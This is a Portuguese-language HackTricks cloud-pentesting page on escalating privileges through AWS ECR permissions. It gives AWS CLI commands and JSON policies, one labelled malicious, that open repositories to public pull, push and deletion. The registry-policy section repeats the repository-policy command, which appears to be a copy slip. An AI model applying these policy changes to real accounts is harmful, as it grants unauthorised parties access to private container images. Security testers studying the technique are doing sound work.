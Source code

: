 # AWS - ECR Privesc

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

## ECR

### `ecr:GetAuthorizationToken`,`ecr:BatchGetImage`

Um atacante com as permissões **`ecr:GetAuthorizationToken`** e **`ecr:BatchGetImage`** pode fazer login no ECR e baixar imagens.

Para mais informações sobre como baixar imagens:

{% content-ref url="../aws-post-exploitation/aws-ecr-post-exploitation.md" %}
[aws-ecr-post-exploitation.md](../aws-post-exploitation/aws-ecr-post-exploitation.md)
{% endcontent-ref %}

**Impacto Potencial:** Privesc indireto ao interceptar informações sensíveis no tráfego.

### `ecr:GetAuthorizationToken`, `ecr:BatchCheckLayerAvailability`, `ecr:CompleteLayerUpload`, `ecr:InitiateLayerUpload`, `ecr:PutImage`, `ecr:UploadLayerPart`

Um atacante com todas essas permissões **pode fazer login no ECR e fazer upload de imagens**. Isso pode ser útil para escalar privilégios para outros ambientes onde essas imagens estão sendo usadas.

Para aprender como fazer upload de uma nova imagem/atualizar uma, confira:

{% content-ref url="../aws-services/aws-eks-enum.md" %}
[aws-eks-enum.md](../aws-services/aws-eks-enum.md)
{% endcontent-ref %}

### `ecr-public:GetAuthorizationToken`, `ecr-public:BatchCheckLayerAvailability, ecr-public:CompleteLayerUpload`, `ecr-public:InitiateLayerUpload, ecr-public:PutImage`, `ecr-public:UploadLayerPart`

Como a seção anterior, mas para repositórios públicos.

### `ecr:SetRepositoryPolicy`

Um atacante com essa permissão poderia **mudar** a **política** do **repositório** para conceder a si mesmo (ou até mesmo a todos) **acesso de leitura/gravação**.\
Por exemplo, neste exemplo, o acesso de leitura é concedido a todos.
```bash
aws ecr set-repository-policy \
--repository-name <repo_name> \
--policy-text file://my-policy.json
```
Conteúdo de `my-policy.json`:
```json
{
"Version" : "2008-10-17",
"Statement" : [
{
"Sid" : "allow public pull",
"Effect" : "Allow",
"Principal" : "*",
"Action" : [
"ecr:BatchCheckLayerAvailability",
"ecr:BatchGetImage",
"ecr:GetDownloadUrlForLayer"
]
}
]
}
```
### `ecr-public:SetRepositoryPolicy`

Como na seção anterior, mas para repositórios públicos.\
Um atacante pode **modificar a política do repositório** de um repositório ECR Público para conceder acesso público não autorizado ou para escalar seus privilégios.

{% code overflow="wrap" %}
```bash
bashCopy code# Create a JSON file with the malicious public repository policy
echo '{
"Version": "2008-10-17",
"Statement": [
{
"Sid": "MaliciousPublicRepoPolicy",
"Effect": "Allow",
"Principal": "*",
"Action": [
"ecr-public:GetDownloadUrlForLayer",
"ecr-public:BatchGetImage",
"ecr-public:BatchCheckLayerAvailability",
"ecr-public:PutImage",
"ecr-public:InitiateLayerUpload",
"ecr-public:UploadLayerPart",
"ecr-public:CompleteLayerUpload",
"ecr-public:DeleteRepositoryPolicy"
]
}
]
}' > malicious_public_repo_policy.json

# Apply the malicious public repository policy to the ECR Public repository
aws ecr-public set-repository-policy --repository-name your-ecr-public-repo-name --policy-text file://malicious_public_repo_policy.json
```
{% endcode %}

**Impacto Potencial**: Acesso público não autorizado ao repositório ECR Público, permitindo que qualquer usuário envie, receba ou exclua imagens.

### `ecr:PutRegistryPolicy`

Um atacante com essa permissão poderia **mudar** a **política do registro** para conceder a si mesmo, sua conta (ou até mesmo a todos) **acesso de leitura/gravação**.
```bash
aws ecr set-repository-policy \
--repository-name <repo_name> \
--policy-text file://my-policy.json
```
{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Treinamento AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Treinamento GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}
